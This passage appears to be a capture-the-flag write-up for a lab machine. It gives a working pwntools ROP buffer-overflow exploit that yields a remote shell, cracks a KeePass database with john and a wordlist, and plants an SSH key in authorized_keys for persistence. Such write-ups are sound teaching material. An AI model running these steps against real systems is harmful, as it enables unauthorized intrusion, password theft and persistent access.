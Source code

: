 Let’s write our exploit:

```python
from pwn import *

context(os="linux", arch="amd64")
#context(log_level='DEBUG')

junk = "A"*120

plt_gets = p64(0x401060)
plt_system = p64(0x401040)
pop_rdi = p64(0x40120b)
binsh = p64(0x404038)

payload = flat(junk, pop_rdi, binsh, plt_gets, pop_rdi, binsh, plt_system)

p = remote("10.10.10.147", 1337)
p.recvline()
p.sendline(payload)
p.sendline('/bin/sh\x00')
p.interactive()
```

Execute it:

```python
~/.local/share/pipx/venvs/pwntools/bin/python3 exploit.py
```

We now have shell:

![image.png]({{ site.baseurl }}/assets/safe/image%203.png)

We find a kdbx file in the user’s home dir. Let’s transfer the file back and attempt to password crack it. First we have to convert the file to john format to try and crack the master password:

```python
keepass2john MyPasswords.kdbx > mypassswords.hash
```

Now crack it:

```python
john --wordlists=/usr/share/wordlists/rockyou.txt mypasswords.hash
```

Looks like the password is not cracking. Let’s get a persistent shell on ssh:

```python
#Let's create a ssh key on attack host
ssh-keygen -f user
cat user.pub

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIByAhumMzo4xVvApNJa3o+n+6lH/6kxyCeuOqix/RIdL kali@kali

#Now cat the content and echo it to authorized_keys on target host
mkdir .ssh
cd .ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIByAhumMzo4xVvApNJa3o+n+6lH/6kxyCeuOqix/RIdL kali@kali" >> authorized_keys

#Now we try to login:
chmod 600 user #change to secure permission to allow use of private key

ssh -i user user@10.10.10.147

```
